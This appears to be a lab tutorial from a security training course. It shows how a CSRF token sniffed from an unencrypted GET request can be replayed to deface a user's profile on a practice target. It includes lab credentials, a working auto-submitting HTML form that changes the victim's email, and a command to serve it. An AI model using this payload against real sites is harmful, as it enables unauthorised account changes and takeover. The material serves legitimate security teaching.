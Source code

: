 # Cross-Site Request Forgery (GET-based)

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon, then use the provided Pwnbox or a local VM with the supplied VPN key to be able to reach the target application and follow along. Then, configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click _Save_. You should see the below.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Save_ again.

You should see the below.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows.

```shell-session
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.
